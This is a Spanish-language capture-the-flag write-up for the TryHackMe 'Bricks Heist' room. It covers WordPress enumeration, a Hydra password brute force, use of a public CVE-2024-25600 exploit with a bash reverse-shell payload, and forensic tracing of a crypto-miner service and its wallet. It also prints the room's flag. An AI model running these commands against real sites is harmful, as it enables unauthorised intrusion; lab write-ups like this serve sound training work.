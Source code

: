 ```yaml
---
title: "TryHack3M: Bricks"
platform: "HTB"
publishedAt: 2025-05-22
cover: "/images/ctf/nota3-cover.webp"
preview: "brtbrtbrtb"
tags: [Hydra]
link: "texto.prueba"
---
```


---


![image.png](/images/ctf/nota3-0.webp)


![image.png](/images/ctf/nota3-1.webp)


# 🧱 Bricks Heist – TryHackMe (Write-up)


![image.png](/images/ctf/nota3-2.webp)


## 🕵️ Introducción


Un sitio web WordPress fue comprometido. Nuestra misión: identificar el punto de entrada, recuperar acceso como administrador, detectar actividad maliciosa (minería), y rastrear al grupo de amenazas involucrado.


---


## 🔍 1. Escaneo inicial


```shell
bash
CopyEdit
nmap -sCV -p- 10.10.72.226
```


Servicios expuestos:

- 22: SSH
- 80: WebSockify (error 405)
- 443: WordPress 6.5
- 3306: MySQL (sin acceso)

---


## 🧱 2. Enumeración de WordPress

- Se detecta **tema activo: Bricks**
- Vulnerabilidad conocida: **CVE-2024-25600**
- Exploit público descargado desde GitHub

---


## 🔓 3. Acceso administrativo


Se obtuvo login con `administrator`, mediante fuerza bruta con `hydra`:


```shell
bash
CopyEdit
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
  http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


---


## 💣 4. Exploiting CVE-2024-25600


Se usó el script:


```shell
bash
CopyEdit
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```


Ejemplo:


```shell
bash
CopyEdit
python3 CVE-2024-25600.py \
  --url https://bricks.thm \
  --username administrator \
  --password TU_PASS \
  --cmd "bash -c 'bash -i >& /dev/tcp/TU_IP/4444 0>&1'"
```


Se obtuvo **shell interactiva**.


---


## 🐚 5. Post-explotación


### Flag encontrada:


```plain text
css
CopyEdit
/var/www/html/650c844110baced87e1606453b93f22a.txt
THM{fl46_650c844110baced87e1606453b93f22a}
```


---


## 🔍 6. Proceso y servicio sospechoso


### Proceso:


```plain text
pgsql
CopyEdit
nm-inet-dialog
```


### Servicio malicioso:


```plain text
CopyEdit
ubuntu.service - TRYHACK3M
```


Verificado vía:


```shell
bash
CopyEdit
systemctl status ubuntu.service
```


---


## 📄 7. Log del miner


Log activo ubicado en:


```plain text
bash
CopyEdit
/lib/NetworkManager/inet.conf
```


📌 **Respuesta (formato** **`xxxx.xxxx`****)**:


```plain text
pgsql
CopyEdit
inet.conf
```


---


## 💰 8. Wallet del miner


Del archivo `inet.conf`:


```plain text
text
CopyEdit
ID: WW1NeGNY...
```


Base64 → doble decode → wallet final:


```plain text
nginx
CopyEdit
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```


---


## 🕵️‍♂️ 9. Threat group


Wallet está asociada con el grupo de ransomware:


**LockBit**


(Confirmado por búsquedas OSINT y análisis de blockchain)


---


## ✅ Conclusión


Este CTF fue un excelente caso realista que combinó:

- Enumeración
- Explotación de CVE
- Análisis forense de logs y procesos
- Técnicas OSINT

Una gran práctica para pentesters y analistas de amenazas.

